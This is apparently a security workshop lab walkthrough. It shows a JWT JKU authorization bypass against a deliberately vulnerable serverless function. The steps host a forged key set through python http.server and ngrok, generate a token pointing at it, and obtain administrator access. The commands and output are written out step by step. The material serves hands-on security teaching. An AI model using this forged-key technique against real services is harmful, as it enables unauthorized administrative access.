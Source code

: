 ## JWT - JKU Authorization Bypass

* In your image, navigate over to `/root/labs/Serverless-Workshop/`
* Run `pip3 install pipenv`
* Run `pipenv install` and `pipenv shell` 
* In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`
* Wait for instructor to explain the contents of the lab
* Install a package for this to work `npm install -g jwt-cli`
* Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)
* Deploy the function with the command `sls deploy`
* Wait for the function to deploy completely


Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

Copy the `token` value and run `jwt <copied token value`, you should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 
* In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`
* Run: `python -m http.server`

In the **Tab 3**:
* Run `ngrok http 8000`

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Run `python token_gen.py https://f8ccd11d.ngrok.io` 
* Copy the generated token starting `ey....`
* Run 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

You should see a response, that you are administrator


